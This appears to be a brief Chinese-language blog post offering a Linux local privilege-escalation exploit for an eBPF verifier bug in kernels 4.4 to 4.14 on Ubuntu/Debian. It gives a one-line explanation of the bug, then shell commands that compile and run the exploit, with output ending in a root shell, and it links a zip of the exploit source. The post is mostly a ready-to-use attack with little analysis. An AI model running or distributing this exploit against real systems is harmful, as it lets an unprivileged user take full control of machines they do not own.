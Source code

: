 ```yaml
---
title: "Ubuntu 提权 EXP"
date: 2018-03-30T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['exp','linux']
categories: ['linux']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



该漏洞存在于 Linux 内核带有的 eBPF bpf(2) 系统调用中, 当用户提供恶意 BPF 程序使 eBPF 验证器模块产生计算错误, 导致任意内存读写问题.

<!--more-->

kernel 4.14 - 4.4

Only Ubuntu / Debian

```
$ gcc -o exp upstream44.c
$ chmod 777 exp
$ ./exp
task_struct = ffff8800789c1540
uidptr = fff88007c0cb6c4
spawning root shell
# whoami
root
```

[upstream44.zip](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/30/1522407731.zip)